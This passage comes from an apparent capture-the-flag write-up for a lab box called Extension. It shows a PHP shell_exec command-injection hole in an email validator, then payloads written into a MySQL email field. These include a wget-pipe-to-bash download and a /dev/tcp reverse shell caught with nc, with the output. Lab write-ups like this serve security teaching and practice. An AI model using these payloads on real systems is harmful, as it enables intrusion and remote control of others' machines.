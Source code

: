 Pressing _Validate_ will send a post request to validate the email of the user, and we'll get the response _"Mail is valid!"_. 

Playing around in MySQL I tried to change email of _Kaleigh Lehner_ and noticed that entering `;`, `&` or `|` still registered as valid email. 
Instead of guessing I decide to look in to the source code to see how this function works and find this:
```php
jean@extension:~/projects/laravel-app/app/Http/Controllers$ cat AdminController.php
[... snip ...]
} else {
	$res = shell_exec("ping -c1 -W1 $domain > /dev/null && echo 'Mail is valid!' || echo 'Mail is not valid!'");
	return Redirect::back()->with('message', trim($res));
}

```

The input data isn't sanitized since we can write directly into the MySQL database and from the vulnerable `shell_exec` function get command injection.

```bash
MySQL [webapp]> update users set email = "&id&" where users.id = 895;
Query OK, 1 row affected (0.035 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

Press _"VALIDATE"_ to execute command:

![](/assets/images/htb-writeup-extension/extension11.png)

Setup a reverse shell payload to get foothold on the docker container:
```bash
➜  extension echo "bash -i >& /dev/tcp/10.10.14.10/4488 0>&1" > rev.sh
➜  extension chmod +x rev.sh 
➜  extension python3 -m http.server 80

MySQL [webapp]> update users set email = "&wget -qO- http://10.10.14.10/rev.sh | bash&" where users.id = 895;
Query OK, 1 row affected (0.033 sec)
Rows matched: 1  Changed: 1  Warnings: 0

## PRESS 'VALIDATE'

10.10.11.171 - - [11/Sep/2022 18:31:18] "GET /rev.sh HTTP/1.1" 200 -

➜  extension nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.171] 53454
bash: cannot set terminal process group (46): Inappropriate ioctl for device
bash: no job control in this shell
application@4dae106254bf:/var/www/html/public$ id
uid=1000(application) gid=1000(application) groups=1000(application),999(app)
```

